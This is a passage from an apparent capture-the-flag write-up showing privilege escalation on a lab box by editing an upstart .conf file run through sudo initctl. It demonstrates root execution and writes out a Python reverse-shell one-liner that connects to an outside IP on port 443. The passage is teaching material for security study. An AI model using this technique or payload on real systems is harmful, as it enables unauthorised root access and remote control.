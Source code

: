 The [initctl man page](https://linux.die.net/man/8/initctl) gives a handful of
options, like `start`, `stop`, `restart`, and `list`.

As I can edit these `.conf` files, I’ll add a line to the `script` section:

    
    
    script
    
        exec id > /tmp/0xdf
        export HOME="/srv"
        echo $$ > /var/run/nodetest.pid
        exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js
    
    end script
    

The service is currently stopped (and it looks like the box is regularly
resetting the conf files and stopping the test services):

    
    
    katie@spectra /etc/init $ sudo initctl status test
    test stop/waiting
    

I’ll start it:

    
    
    katie@spectra /etc/init $ sudo initctl start test
    test start/running, process 51318
    

Now there’s a file in `/tmp`:

    
    
    katie@spectra /etc/init $ cat /tmp/0xdf 
    uid=0(root) gid=0(root) groups=0(root)
    

The service runs my added code as root.

### Shell

To get a shell, I’ll replace the `id` line with the same reverse shell I used
earlier:

    
    
    script
    
        exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
        export HOME="/srv"
        echo $$ > /var/run/nodetest.pid
        exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js
    
    end script
    

Now I’ll start the service:
